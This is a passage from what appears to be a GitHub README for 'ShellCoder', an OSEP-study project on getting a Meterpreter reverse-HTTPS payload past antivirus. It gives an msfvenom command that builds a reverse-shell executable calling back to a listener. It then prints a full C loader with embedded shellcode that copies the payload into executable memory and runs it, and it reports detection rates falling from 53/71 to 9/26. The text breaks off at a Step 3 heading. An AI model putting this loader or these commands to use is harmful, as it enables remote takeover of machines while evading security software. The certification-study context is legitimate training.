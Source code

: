 ShellCoder
=======

- I use this repository for my OSEP certification
- Thanks to https://github.com/EnginDemirbilek/Flip
- Thanks to https://github.com/9emin1/charlotte
- Thanks to https://github.com/Arno0x/ShellcodeWrapper

The purpose of this document is to check the ability of the antivirus to detect a meterpreter binary. For this purpose I
will try different methods described in the mentioned PDF. Some of these methods may have become obsolete by antivirus
updates since this document was published in 2014. However, it is also possible that some evasion techniques are still
effective against current antiviruses. Therefore, it will be interesting to test these different methods and see if
current antivirus programs can detect a meterpreter payload. It is indeed quite likely that most modern antivirus
programs will be able to detect the meterpreter binary, given that it is known to be used in computer attacks. However,
it is important to note that the detection of software as malicious does not necessarily mean that it will be blocked or
removed by the antivirus. It is possible that an antivirus program may detect the meterpreter binary but not have the
ability to remove it, or ask the user for confirmation before doing so. It is also possible that some versions of
meterpreter are more effective than others at going undetected by antivirus software. In any case, it is important to
continue testing and evaluating the ability of antivirus software to detect this kind of software in order to ensure the
security of our systems.

Step 1
______

- I start my test with a simple binary generated by metasploit.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f exe -o step1.exe
```

Without surprise 53 AV out of 71 detect
it :[Link VirusTotal](https://www.virustotal.com/gui/file/e787031fe8dcc781680e35184f67ea767a08cbab41de70ed3ae04c3f106887da?)

![Step1](doc/step1.png "Simple meterpreter payload")


Step 2
------

It is possible that embedding the meterpreter binary in a script written in C may affect the way it is detected by
antivirus software. This is because some antivirus software may be more likely to detect malware when it is embedded in
scripts or programs, rather than when it is present as independent executable files. The .exe files generated by
metasploit have a signature that is very well known to antivirus programs, so the detection rate is very high. It is
also possible that the use of different programming languages can make the binary more difficult to detect for some
antivirus programs, because of the way they parse the code. It will be interesting to see how the results of these tests
differ from those obtained previously and to determine whether the integration of the binary in a C script has an impact
on its detection by antivirus software.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 EXITFUNC=thread -f c
```

```c
#include <windows.h>
#include <string>
using namespace std;

int main(int argc, char **argv) {{
    unsigned char buf[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
    "\x52\x51\x48\x31\xd2\x56\x65\x48\x8b\x52\x60\x48\x8b\x52"
    "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
    "\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
    "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
    "\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
    "\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
    "\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
    "\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
    "\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
    "\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
    "\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
    "\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
    "\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
    "\x4b\xff\xff\xff\x5d\x48\x31\xdb\x53\x49\xbe\x77\x69\x6e"
    "\x69\x6e\x65\x74\x00\x41\x56\x48\x89\xe1\x49\xc7\xc2\x4c"
    "\x77\x26\x07\xff\xd5\x53\x53\x48\x89\xe1\x53\x5a\x4d\x31"
    "\xc0\x4d\x31\xc9\x53\x53\x49\xba\x3a\x56\x79\xa7\x00\x00"
    "\x00\x00\xff\xd5\xe8\x0d\x00\x00\x00\x31\x39\x32\x2e\x31"
    "\x36\x38\x2e\x31\x2e\x32\x36\x00\x5a\x48\x89\xc1\x49\xc7"
    "\xc0\xbb\x01\x00\x00\x4d\x31\xc9\x53\x53\x6a\x03\x53\x49"
    "\xba\x57\x89\x9f\xc6\x00\x00\x00\x00\xff\xd5\xe8\x4d\x00"
    "\x00\x00\x2f\x39\x79\x38\x77\x41\x54\x63\x56\x56\x54\x59"
    "\x2d\x5f\x44\x5f\x2d\x58\x55\x42\x47\x45\x51\x6b\x61\x71"
    "\x43\x34\x77\x33\x6f\x6a\x6c\x61\x68\x31\x32\x56\x4a\x38"
    "\x42\x73\x4c\x43\x42\x51\x32\x6b\x62\x63\x49\x34\x2d\x6e"
    "\x31\x4c\x68\x36\x55\x2d\x42\x4c\x4d\x78\x42\x35\x49\x5a"
    "\x56\x38\x42\x62\x6d\x47\x36\x64\x00\x48\x89\xc1\x53\x5a"
    "\x41\x58\x4d\x31\xc9\x53\x48\xb8\x00\x32\xa8\x84\x00\x00"
    "\x00\x00\x50\x53\x53\x49\xc7\xc2\xeb\x55\x2e\x3b\xff\xd5"
    "\x48\x89\xc6\x6a\x0a\x5f\x48\x89\xf1\x6a\x1f\x5a\x52\x68"
    "\x80\x33\x00\x00\x49\x89\xe0\x6a\x04\x41\x59\x49\xba\x75"
    "\x46\x9e\x86\x00\x00\x00\x00\xff\xd5\x4d\x31\xc0\x53\x5a"
    "\x48\x89\xf1\x4d\x31\xc9\x4d\x31\xc9\x53\x53\x49\xc7\xc2"
    "\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x75\x1f\x48\xc7\xc1\x88"
    "\x13\x00\x00\x49\xba\x44\xf0\x35\xe0\x00\x00\x00\x00\xff"
    "\xd5\x48\xff\xcf\x74\x02\xeb\xaa\xe8\x55\x00\x00\x00\x53"
    "\x59\x6a\x40\x5a\x49\x89\xd1\xc1\xe2\x10\x49\xc7\xc0\x00"
    "\x10\x00\x00\x49\xba\x58\xa4\x53\xe5\x00\x00\x00\x00\xff"
    "\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda"
    "\x49\xc7\xc0\x00\x20\x00\x00\x49\x89\xf9\x49\xba\x12\x96"
    "\x89\xe2\x00\x00\x00\x00\xff\xd5\x48\x83\xc4\x20\x85\xc0"
    "\x74\xb2\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd2\x58\xc3"
    "\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff\xd5";

    void *valloc = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(valloc, buf, sizeof buf);
    ((void(*)())valloc)();
}}
```

I will now use antiscan.me, a service that offers a similar scan to VirusTotal, but uses fewer antivirus vendors. One of
the advantages of this service is that it does not release the samples it scans, which can be convenient if you don't
want the binary to be made public. The detection rate has risen to 9 out of 26, so we can do better.

- [Link Antisan](https://antiscan.me/scan/new/result?id=JZP5rM62ybAI)

![Step1](doc/step2.png "Meterpreter payload inside C code")


Step 3
------

